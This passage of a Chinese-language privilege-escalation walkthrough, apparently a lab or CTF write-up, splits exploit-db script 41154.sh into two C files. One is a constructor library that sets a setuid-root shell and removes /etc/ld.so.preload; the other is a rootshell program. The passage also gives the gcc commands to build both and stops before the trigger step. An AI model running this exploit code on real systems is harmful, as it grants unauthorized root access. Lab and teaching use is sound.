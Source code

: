 ![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJRMYD5BQLKZATZ72V3icicoe6ptgjfVMTS0zMrJbQLhyeVGxicoiaNXSr4w/640?wx_fmt=png)

可以看到有两个漏洞利用，这里我们使用`linux/local/41154.sh`脚本

进入目录看下脚本

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJcIA2ItwSf6G2FoUGeVxAHhZ69oEvoTAFGjJY2V4tBWh72u0vGsSRcg/640?wx_fmt=png)

这个脚本主要由三部分组成，原本是直接执行脚本，可惜这个脚本有问题，所以需要创建 2 个文件，把每个代码块单独拿出来执行

才可以

1.  创建第一个文件，并复制一下代码块
    

> vi libhax.c

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

2.  创建第二个文件，复制第二个代码块
    

> vi rootshell.c

```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJMHtPuupST7fMXCicFFL72ercjrcxMl18Qf2RPGnMfqkMGplpfXA2m1w/640?wx_fmt=png)

3.  编译文件
    

> gcc -fPIC -shared -ldl -o libhax.so libhax.c
> 
> gcc -o rootshell rootshell.c

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJdC8MOxQ0LEBRnUIpkY98faADYic4eP8Lm5AGvyOM3zicgEB242p83lTw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MbfibDppX0fl1hEiaNu2tgFcJNwPQnAWYPibYD0IWOVQd1MqSDqUjo1BpoYQK2d9RB9icuDW1EbmWB08Q/640?wx_fmt=png)
